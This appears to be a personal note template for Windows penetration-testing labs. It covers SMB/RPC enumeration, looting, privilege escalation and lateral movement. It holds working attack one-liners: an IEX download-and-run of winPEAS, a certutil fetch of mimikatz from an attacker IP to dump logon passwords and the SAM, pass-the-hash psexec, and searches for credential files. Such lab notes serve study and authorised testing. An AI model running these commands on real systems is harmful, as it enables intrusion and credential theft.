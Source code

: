 #show #windows
<%*
const path = tp.file.folder(true).split('/');
const filename = "0_" + path[path.length - 1];
await tp.file.rename(filename);
tR += "Part of " + "[" + "[" + "0_Lab_" + path[path.length - 2] + "]]";
-%>

First flag: ☑️
Second flag: ✅

# Enumeration
##### MSRPC (135, 593)
```bash
impacket-rpcdump $hip | grep '12345778-1234-abcd-ef00-0123456789ab\|3919286a-b10c-11d0-9ba8-00c04fd92ef5\|12345778-1234-abcd-ef00-0123456789ac\|1ff70682-0a51-30e8-076d-740be8cee98b\|338cd001-2244-31f1-aaaa-900038001003\|367abb81-9844-35f1-ad32-98f038001003\|4b324fc8-1670-01d3-1278-5a47bf6ee188\|4d9f4ab8-7d1c-11cf-861e-0020af6e7c57'
```

##### SMB (139, 445) #login
```bash
i=$hip; enum4linux -a $i ; enum4linux-ng -A $i ; crackmapexec smb $i 2>/dev/null
```
If used with proxy, use `proxychains -q`. Provide creds with `-u "<username>" -p "<passwd>"` 
Username can be `$(find . -name "9*.md" -print | cut -d "/" -f2 | cut -d "." -f1 | cut -d "_" -f2 | cut -d " " -f 1)`
Alternativ: [grab_smbversion.sh](file:////home/kali/Documents/activeInformationGathering/)
# Initial Foothold

### Software Versions

	 `searchsploit` and Google Dorks

### Insecure configurations
> Use the service template to document possible attack vectors and document here which worked
> NSE scripts: `ls /usr/share/nmap/scripts`
> Run the following for all services: `nmap --script "safe and smb-*" $hip`. If nothing helps, try `nmap --script "smb-vuln-*" $hip`


# Loot

Hostname `hostname`
	

Flag `type C:\Users\Administrator\Desktop\proof.txt` or local.txt for non-elevated
	
##### Users
```powershell
Get-LocalUser
```
Alternative: `net user`
##### Network
```powershell
ipconfig /all; route print; netstat -ano; netsh advfirewall show currentprofile, netsh advfirewall firewall show rule name=all
```

##### Interesting files
```powershell
Get-ChildItem -Recurse -Path C:\Users\ -File -Exclude Desktop.lnk,Downloads.lnk,Bing.url | select Name,Directory; Get-ChildItem -Path C:\Users\ -Include *.kdbx,*.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue; Get-History; type (Get-PSReadlineOption).HistorySavePath
```

##### Advanced
Mounted Volumes: `mountvol`
Devices: `Get-WmiObject Win32_PnPSignedDriver | Select-Object DeviceName, DriverVersion, Manufacturer`
Drivers: `driverquery.exe /v /fo csv | ConvertFrom-CSV | Select-Object "Display Name", "Start Mode", "Path"`
Shadow Copy: `vssadmin list shadows`, `mklink /d c:\shadowcopy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\`
# PrivEsc
##### Find Working Dir for attack
```powershell
Get-ChildItem "C:\Program Files" -Recurse | Get-ACL | ?{$_.AccessToString -match "Everyone\sAllow\s\sModify"}
```
	
##### WinPEAS
```bash
IEX(New-Object Net.WebClient).downloadString('https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/winPEAS/winPEASps1/winPEAS.ps1'); ./linpeash.ps1 -a -r | tee linpeas.txt
```
Read it with color-highlighting using `less -r linpeas.txt`

> I still have to run WinPEAS once and check what additional commands I need to integrate from [[2_loot-privEsc_Windows_Manually]]

##### Windows Exploit Suggester - Next Generation
On target, execute `systeminfo > systeminfo.txt` and transfer file. On kali, do
```bash
wes --muc-lookup systeminfo.txt
```

Consider [[3_dllHijacking_guide]]

Ways to login as another user:
- `impacket-psexec '$user:$password@$hip'` oder `impacket-psexec -hashes 00000000000000000000000000000000:$ntlm_hash '$user@$hip'`
- If we have access to the GUI -> `RunAs /user:$user cmd`
- User is in group _Remote Desktop Users_ -> RDP
- User is in group _Remote Management Users_ -> WinRM (Better use [evil-winrm](https://github.com/Hackplayers/evil-winrm) from non-interactive shells)
- User has _Log on as a batch job_ right -> Schedule task to execute a program of our choice as this user
- User has active session -> Use PsExec (SysInternals)

# Loot passwords
```powershell
certutil.exe -urlcache -split -f "http://192.168.45.IP:8000/mimikatz.exe" ; .\mimikatz.exe privilege::debug sekurlsa::logonpasswords lsadump::sam exit
```